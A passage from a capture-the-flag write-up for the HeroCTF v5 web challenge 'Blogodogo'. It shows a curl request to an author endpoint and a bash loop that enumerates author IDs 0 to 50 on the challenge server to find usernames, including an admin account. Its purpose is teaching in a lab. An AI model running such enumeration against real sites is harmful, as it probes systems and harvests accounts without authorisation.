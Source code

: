 On the other hand, a curl request to the `/author/23` endpoint gives us the profile of the user `lolo`.

```bash
curl 'http://dyn-01.heroctf.fr:10471/author/23'
[...]
<!-- Page Header-->
<header class="masthead" style="background-image: url('/static/assets/img/about-bg.jpg')">
    <div class="container position-relative px-4 px-lg-5">
        <div class="row gx-4 gx-lg-5 justify-content-center">
            <div class="col-md-10 col-lg-8 col-xl-7">
                <div class="page-heading">
                    <h1>lolo</h1>

                        <span class="subheading">Content writer</span>

                </div>
            </div>
        </div>
    </div>
</header>
[...]
```

Based on this information, I performed several commands to test the authors' IDs from 0 to 50 and display a result if the user exists.

```bash
for id in {0..50}; do response=$(curl -s "http://dyn-01.heroctf.fr:10471/author/$id"); [[ "$response" != *"Redirecting..."* ]] && username=$(echo "$response" | grep -oP '(?<=<h1>).*(?=<\/h1>)') && echo "Username: $username | ID: $id"; done

Username: admin | ID: 17
Username: bob | ID: 18
Username: alice | ID: 19
Username:john | ID: 20
Username: doggo | ID: 21
Username: toto | ID: 22
Username: lolo | ID: 23
Username: tata | ID: 24
```

We found the user `admin` with the ID `17` accessible at the URL `/author/17`.

Now, we might be able to find the flag in the profile of the user `admin` since on a user's profile page, we can see their posts.

![Blogodogo admin profile](/images/heroctfv5/web/blog_admin_profile.png)
![Blogodogo admin profile draft](/images/heroctfv5/web/blog_admin_profile_draft.png)

Bingo! We see the post `Secret blog post (draft)` with the description: `Secret post!!`

Unfortunately, clicking on the post gives us an error message: `You cannot view the drafts of other users`.
